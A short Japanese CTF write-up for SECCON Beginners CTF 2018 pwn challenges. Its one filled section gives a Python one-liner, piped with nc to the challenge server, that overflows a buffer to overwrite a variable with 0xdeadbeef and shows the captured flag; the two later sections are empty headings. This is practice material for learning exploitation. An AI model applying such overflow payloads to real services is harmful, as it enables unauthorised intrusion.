 SECCON BeginnersCTF 2018 pwn問題のwriteupです。

# 1. [Warmup] condition 85点

```
$ python -c 'print "\x00"*44+"\xef\xbe\xad\xde"'|nc pwn1.chall.beginners.seccon.jp 16268
Please tell me your name...OK! You have permission to get flag!!
ctf4b{T4mp3r_4n07h3r_v4r14bl3_w17h_m3m0ry_c0rrup710n}
```

# 2. BBS 304点



# 3. Seczon 388点

